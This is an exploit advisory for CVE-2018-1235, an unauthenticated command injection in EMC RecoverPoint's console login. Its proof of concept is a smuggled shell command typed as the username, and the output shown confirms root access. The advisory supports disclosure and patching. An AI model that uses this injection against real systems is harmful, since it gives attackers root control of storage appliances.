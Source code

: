 ## EMC RecoverPoint < 5.1.2/5.1.1.3 username command injection (local root exploit)

- Version: All versions before RP 5.1.2, and all versions before RP4VMs 5.1.1.3
- Date: 2018-06-21
- Vendor Advisory: DSA-2018-095
- Vendor KB: https://support.emc.com/kb/521234
- Exploit Author: Paul Taylor (@bao7uo) / Foregenix Ltd
- Github: https://github.com/bao7uo/dell-emc_recoverpoint
- Website: https://www.foregenix.com/blog/foregenix-identify-multiple-dellemc-recoverpoint-zero-day-vulnerabilities
- Tested on: Tested on: RP4VMs 5.1.1.2, RP 5.1.SP1.P2
- CVE: CVE-2018-1235
- Exploit-db: https://www.exploit-db.com/exploits/44920/

## 1. Description
An OS command injection vulnerability exists in the mechanism which processes usernames which are presented for authentication, allowing unauthenticated root access via tty console login.

## 2. Proof of Concept

- Inject into local tty console login prompt

```
recoverpoint login: $(bash > &2)
root@recoverpoint:/# id
uid=0(root) gid=0(root) groups=0(root)
root@recoverpoint:/#
```

## 3. Solution:

Update to latest version of RecoverPoint
